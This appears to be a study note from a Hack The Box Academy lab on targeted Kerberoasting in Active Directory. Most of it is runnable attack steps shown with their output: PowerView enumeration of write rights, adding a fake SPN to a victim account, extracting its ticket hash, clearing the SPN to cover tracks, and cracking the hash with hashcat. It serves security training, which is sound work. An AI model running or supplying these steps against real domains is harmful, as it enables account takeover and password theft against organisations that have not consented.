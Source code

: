 [Kerberoasting](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/detecting-ldap-based-kerberoasting-with-azure-atp/ba-p/462448) is a post-exploitation attack that takes advantage of the way `Service Principal Names` (`SPNs`) are used in Active Directory for authentication. When a client requests a Kerberos TGS service ticket, it gets encrypted with the service account’s NTLM password hash. An attacker can obtain this ticket and perform offline password cracking to open it. If successful, the attacker can obtain the service account’s password. The success of this attack depends on the strength of the service account’s password. (Review the [Kerberos Attacks](https://academy.hackthebox.com/module/details/25) module to learn about `Kerberoasting` and other `Kerberos` attacks.)

When an attacker possesses an account with the ability to edit the `servicePrincipalName` attribute of another user account in a domain, they can potentially make that account vulnerable to a `Kerberoasting` attack. By adding an `SPN` to the user account, the attacker can request a Kerberos TGS service ticket for that `SPN` and obtain it, encrypted with the user account's NTLM password hash. The attacker can then use offline password-cracking techniques to try to open the ticket and obtain the user account's password.

This is possible when the controlled account has `GenericAll`, `GenericWrite`, `WriteProperty`, `WriteSPN` or `Validated-SPN` over the target.

## Identifying Vulnerable Accounts

![targeted_kerberoast_bloodhound.png](https://academy.hackthebox.com/storage/modules/219/targeted_kerberoast_bloodhound.png)

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $userSID = (Get-DomainUser -Identity pedro).objectsid
PS C:\Tools> Get-DomainObjectAcl -Identity rita | ?{$_.SecurityIdentifier -eq $userSID}

ObjectDN               : CN=Rita,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID              : S-1-5-21-1267651629-1192007096-1618970724-4613
ActiveDirectoryRights  : WriteProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : f3a64788-5306-11d1-a9c5-0000f80367c1
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 32
SecurityIdentifier     : S-1-5-21-1267651629-1192007096-1618970724-4617
AceType                : AccessAllowedObject
AceFlags               : ContainerInherit
IsInherited            : False
InheritanceFlags       : ContainerInherit
PropagationFlags       : None
AuditFlags             : None
```

## Targeted Kerberoasting from Windows

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser Rita | Select serviceprincipalname

serviceprincipalname
--------------------
```

> Settting the SPN

```powershell
PS C:\Tools> Set-DomainObject -Identity rita -Set @{serviceprincipalname='nonexistent/BLAHBLAH'} -Verbose
```

> Getting Rita Hash

```powershell
PS C:\Tools> $User = Get-DomainUser Rita
PS C:\Tools> $User | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash
```

> Clearing the SPNs of Rita

```powershell
PS C:\Tools> Set-DomainObject -Identity Rita -Clear serviceprincipalname -Verbose
```

---
---
## Cracking The Kerberoastable Hash

```bash
hashcat -m 13100 /tmp/rita.hash /usr/share/wordlists/rockyou.txt --force
```

---
---
